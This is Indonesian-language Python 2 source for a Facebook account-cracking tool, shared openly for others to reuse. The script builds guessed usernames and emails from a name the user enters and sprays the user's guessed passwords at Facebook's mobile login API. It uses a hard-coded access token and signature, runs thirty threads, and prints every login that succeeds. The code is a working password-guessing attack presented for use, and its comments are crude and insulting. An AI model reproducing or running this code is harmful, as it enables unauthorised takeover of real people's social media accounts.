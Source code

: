 Silahkan bagi yg mau recode!!! 
Credit : iqbal dev 
Author : iqbal dev 
Author2 : PresidenHanz
Facebook : HANZ KONTOLZ 
WA : -------

SC CRACK FACEBOOK FREE RECODE 

# -*- coding UTF-8 -*-
#  Author : Hanz
#  Tools : crack efbih mungkin
#  Versi : 0.5

versi = "0.5"
import os
try:
	import requests
except ImportError:
	print " \033[93;1m\n     lo belum Install modul Requests,\n   klik Enter Untuk Install Requests... "
	raw_input(" ====>")
	os.system("pip install requests" if os.name == 'nt' else 'pip2 install requests')
	
try:
	from prettytable import PrettyTable
except ImportError:
	print " \033[93;1m\n     Kamu belum Install modul PTable,\n   Tekan Enter Untuk Install PTable... "
	raw_input(" ====>")
	os.system("pip install PTable" if os.name == 'nt' else 'pip2 install PTable')
	
import requests, json
from br import brute
from multiprocessing import Process
from multiprocessing.pool import Process, ThreadPool
from useragents import baner, multi_ban, deviv, divev, download
import subprocess, sys
	
os.system('' if os.name == 'nt' else 'chmod +x *')
users1 = []

users2 = []
users3 = []
users4 = []
users5 = []
users6 = []

def user_dev():
  try:
  	print multi_ban
  	us = raw_input("\033[96;1m {\033[97;1m@\033[96;1m}\033[92;1m Masukkan Nama Facebook, Conth:\033[96;1m lucinta\n\033[97;1m  ==> ")
  	jumlah = input("\n\033[96;1m\033[96;1m {\033[97;1m$\033[96;1m}\033[92;1m Jumlah User Yg Mau Di Crack\033[96;1m (Max=5000):\n\033[93;1m  ==> ")
  	san_dev = raw_input("\n\033[96;1m\033[96;1mMugkin {\033[97;1m$\033[96;1m}\033[92;1m Sandi Yg Munkin Digunkn, conth:\033[96;1m lucinta123\n\033[97;1m  ==> ")
  	# set password
  	if us == '' or us == ' ' or san_dev == '' or san_dev == ' ':
  		exit('\n \033[91;1m Jangan Kosong Lah monyet.. \n')
  	print '\n\033[95;1m<<\033[96;1m Proses Cracking Sedang Berjalan,Tunggu Ajh!\033[95;1m >> \n'
  	sandi1 = san_dev.replace(' ', '\n').replace(',', '\n').replace('/', '\n')
  	sandi = sandi1.replace('\n\n', '\n')
  	# set usernmae
  	userz = us.replace(' ', '')
  	p = open("pass.txt", "w")
  	p.write(sandi)
  	p.close()
	bag = jumlah / 6 + 1
	bag1 = jumlah / 3 + 1
	bag2 = jumlah / 2 + 1
	bag3 = jumlah / 2 + bag
	bag4 = jumlah / 2 + bag1
	

	for dev in range(1, jumlah+1):
		users1.append(userz+str(dev)+'@gmail.com')
	for dev in range(1, jumlah+1):
		users1.append(userz+str(dev)+'@yahoo.com')
	# for dev in range(1, bag):
	# 	users1.append(userz+'.'+str(dev))

	for dev in range(bag, bag1):
		users2.append(userz+'.'+str(dev))
	
	for dev in range(bag1, bag2):
		users3.append(userz+'.'+str(dev))
	
	for dev in range(bag2, bag3):
		users4.append(userz+'.'+str(dev))
	
	for dev in range(bag3, bag4):
		users5.append(userz+'.'+str(dev))
	
	for dev in range(bag4, jumlah+1):
		users6.append(userz+'.'+str(dev))
		
  except KeyboardInterrupt: 
  	exit("\033[91;1m \n Keluar... \n")
  except NameError:
  	exit('\n\033[91;1m Masukkan angka nyet..\n')
  except SyntaxError:
	exit('\n\033[91;1m Masukkan Angka nyet..\n ')

def pro_dev(ival):
	pas = open("pass.txt", "r").readlines()
	iqbal = ival.replace('\n', '')
	for iq in pas:
	  try:
	  	iqu = iq.replace('\n', '').replace('\n\n', '') 
	  	dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+ival+"&locale=en_US&password="+iqu+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
	  	dev_iv = dev.content
	  	jsl = json.loads(dev_iv)
	  	if "session_key" in dev_iv:
	  		print "\033[96;1m  [\033[92;1mSUC\033[96;1m] " +'\033[97;1m'+ iqbal + '\033[96;1m |\033[97;1m '+ iqu
  	  	elif "www.facebook.com" in jsl["error_msg"]:
 			print "\033[96;1m  [\033[92;1mSUC\033[96;1m] " +'\033[97;1m'+ iqbal + '\033[96;1m |\033[92;1m '+ iqu

	  	else:
	  		pass

	  except:
	  	pass

# def dev_id():
# 	for dev in users:
# 		pro = Process(target=pro_dev, args=(dev,))
# 		multi.append(pro)
# 		pro.start()

# 	for dev in multi:
# 		dev.join()

def run():
	dev = ThreadPool(30)
	dev.map(pro_dev, users1)
	
if __name__ == '__main__':
	
	try:
		download()
		os.system('cls' if os.name == 'nt' else 'clear')
		print baner
		pil = raw_input("\033[96;1m {\033[95;1m?\033[96;1m}\033[92;1m Pilih Opsi\033[93;1m : ")
		if pil == '1':
			brute()
		elif pil == '2':
			user_dev()
			run()

			print "\n\033[97;1m     ==[ \033[96;1m Selesai...... \033[91;1mVersi "+versi+"\033[97;1m  ]== \n"
			divev()
			deviv()

		elif pil== '3':
			try:
				subprocess.check_output(['am', 'start', 'https://www.youtube.com/channel/UCvjRdkX9q8udv5ZXmhhLZxg'])
			except KeyboardInterrupt:
				subprocess.check_output(['am', 'start', 'https://www.youtube.com/channel/UCvjRdkX9q8udv5ZXmhhLZxg'])
			except WindowsError:
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')

		elif pil == '4':
			try:
				print " \n\n \033[97;1m        +++[ \033[96;1m Tools Versi "+versi+" \033[97;1m ]+++" 
				print " \n               \033[93;1m Keunggulan:\n\n   \033[97;1m   Lebih Power Full dibanding yg V.01 \n      bisa mengisi lebih dari 1 password  \n"
				print " \n\033[95;1m   Silahkan Ikuti Instagram saya \033[96;1m(IqbalDev)"
				raw_input(" \033[97;1m    Tekan Enter Untuk Membuka Instagram..")
				subprocess.check_output(['am', 'start', 'https://www.instagram.com/iqbaldev/'])
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')
			except KeyboardInterrupt:
				subprocess.check_output(['am', 'start', 'https://www.instagram.com/iqbaldev/'])
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')
			except WindowsError:
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')

		else:
			print "\n\033[90;1m Pilih yang Bener lah Kampprett.. "
			divev()
			deviv()
			
	except KeyboardInterrupt:
		exit("\n\033[90;1m Keluar... ")
